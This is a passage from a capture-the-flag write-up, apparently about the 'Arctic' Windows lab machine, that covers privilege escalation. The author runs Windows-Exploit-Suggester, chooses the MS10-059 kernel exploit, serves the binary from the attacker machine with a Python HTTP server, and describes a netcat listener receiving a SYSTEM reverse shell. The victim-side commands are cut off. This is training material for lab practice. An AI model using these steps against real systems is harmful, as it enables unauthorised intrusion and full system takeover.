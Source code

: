 I try another way to **Escalate privileges**, then I resort to a tool that is also widely used in Pentesting and is responsible for comparing the patch levels of a target with the Microsoft vulnerability database (**[Windows-Exploit-Suggester](https://github.com/Pwnistry/Windows-Exploit-Suggester-python3){:target="_blank"}**). It is a script written in **Python** and after updating the local database and solving a problem with **Python** I can run it, I only need the information of the target system that I get with `systemInfo`. After a while I get a long list of vulnerabilities.

```bash
python3 windows-exploit-suggester.py -u 2>/dev/null
sudo pip3 install openpyxl
# :(

python3 -m venv ./
./bin/python3 ./bin/pip3 install openpyxl
nvim systemInfo.txt
cat systemInfo.txt | head -n 5
./bin/python3 windows-exploit-suggester.py --systeminfo systemInfo.txt --database 2025-05-03-mssb.xlsx 2>/dev/null
```

<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After spending quite a while researching vulnerabilities, I find one that I had already exploited on another machine, **MS10-059**. I just download the **[SecWiki exploit](https://github.com/SecWiki/windows-kernel-exploits){:target="_blank"}** from **Github** and transfer it to the victim machine, check that its integrity has not been successfully compromised in the transfer. I just follow the steps that the binary tells me, so I just have to open a port with `nc` on my attacking machine and the `MS10-059.exe` binary is responsible for sending me a **Reverse Shell** with maximum privileges, again rooted machine.

> **Attacker Machine**:

```bash
# MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important

mv /home/al3j0/Downloads/MS10-059.exe ./
python3 -m http.server 80
```

> **Victime Machine**:

